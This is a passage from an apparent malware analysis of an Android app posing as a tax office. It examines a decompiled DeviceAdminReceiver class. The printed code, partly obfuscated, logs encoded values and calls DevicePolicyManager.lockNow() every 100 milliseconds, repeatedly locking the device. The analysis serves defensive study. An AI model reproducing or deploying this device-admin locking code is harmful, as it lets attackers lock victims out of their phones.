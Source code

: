 ************Class************ `c34b13876d` ****

This class imports the original class from our originating APK and appears to be associated with device policy related actions on the device. We can see that two imports for the admin packages are made in this class. You can reference the documentation [here](https://developer.android.com/reference/android/app/admin/package-summary) to read more about these classes. 

```java
import android.app.admin.DeviceAdminReceiver;
import android.app.admin.DevicePolicyManager;
```

Interesting that an supposed Tax office needs Admin level privileges on a user device to administer and control them. 

In the code block we can see that the receiver can enabled and disabled what appear to be system level policies (lines 16 - 32 and 45 - 60) show such behavior by using the [getSystemService](https://developer.android.com/reference/android/content/Context#getSystemService(java.lang.String)) to access the [global policy management](https://developer.android.com/reference/android/app/admin/DevicePolicyManager). 

```java
[TRUNCATED]
public class c04f5ddb69 extends DeviceAdminReceiver {
    public final void CreateThread(final Context context) {
        try {
            caf5aa5dc1.m50dcc7c525de53b8().addDataInTable(0, new cecc425c9b(caf5aa5dc1.ma93efdbbced5be26(new byte[]{-62, -76, 40, 91, -75, 20, 121, 44, 66, -4, -96, -40, -41, -6, 12, 16}), caf5aa5dc1.ma93efdbbced5be26(new byte[]{43, 95, 34, 100, -55, 16, 80, -81, -47, 3, 108, 37, -13, -76, 5, -122})), new cecc425c9b(caf5aa5dc1.ma93efdbbced5be26(new byte[]{41, 82, -66, -36, -71, -74, 100, -95, 5, -33, 50, 36, -91, -122, 126, 16}), caf5aa5dc1.ma93efdbbced5be26(new byte[]{90, 50, -68, -63, -79, 44, -75, -25, -78, -24, -93, 86, -104, 83, -50, 40, -78, 102, -44, 14, 64, 40, 88, 121, -34, -4, 71, -64, 56, -30, 57, -108})), new cecc425c9b(caf5aa5dc1.ma93efdbbced5be26(new byte[]{-18, 32, -123, 3, -71, -95, -54, 114, -32, 57, -94, 17, -62, -36, -80, 38}), String.valueOf(System.currentTimeMillis() / 1000)));
            Executors.newSingleThreadScheduledExecutor().scheduleWithFixedDelay(new Runnable() { // from class: c4b6965b75.cb36c44931.c34b13876d.c04f5ddb69.1
                @Override // java.lang.Runnable
                public final void run() {
                    try {
                        ((DevicePolicyManager) context.getSystemService("device_policy")).lockNow();
                    } catch (Exception unused) {
                    }
                }
            }, 0L, 100L, TimeUnit.MILLISECONDS);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
[TRUNCATED]
```

**Class `cb6c6c27fc`**
